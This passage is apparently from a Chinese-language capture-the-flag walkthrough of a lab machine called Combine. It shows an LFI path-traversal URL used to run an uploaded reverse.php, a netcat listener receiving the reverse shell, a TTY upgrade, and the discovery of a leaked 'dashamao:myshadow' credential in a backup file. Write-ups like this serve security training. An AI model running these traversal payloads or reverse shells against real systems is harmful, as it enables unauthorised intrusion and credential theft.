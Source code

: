 **c. 触发Shell**

利用之前发现的LFI漏洞和FTP泄露的绝对路径，构造URL来执行`reverse.php`。使用`--path-as-is`选项防止`curl`对路径中的`../`进行标准化处理。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl --path-as-is 'http://192.168.205.252?file=....//....//....//srv/ftp/upload/reverse.php'
```

**d. 接收Shell**

回到`nc`监听窗口，成功接收到反向Shell。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.252] 43474
Linux Combine 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64 GNU/Linux
...
www-data@Combine:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

当前用户为`www-data`。为了方便操作，使用以下命令升级为一个稳定的交互式TTY Shell。

```shell
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 36 columns 178
```

### **三、权限提升**

#### **1. www-data -> dashamao**

在`www-data`用户下进行信息收集。在`/home/dashamao`目录下发现`note.txt`文件。

```shell
www-data@Combine:/home/dashamao$ cat note.txt
check backup folder
```

根据提示，检查`/var/backups`目录，发现一个可疑文件`apt.extended_states`。

```shell
www-data@Combine:/var/backups$ ls -al
...
-rw-r--r--  1 root root    18 Oct 10 09:11 apt.extended_states
...
www-data@Combine:/var/backups$ cat apt.extended_states
dashamao:myshadow
```
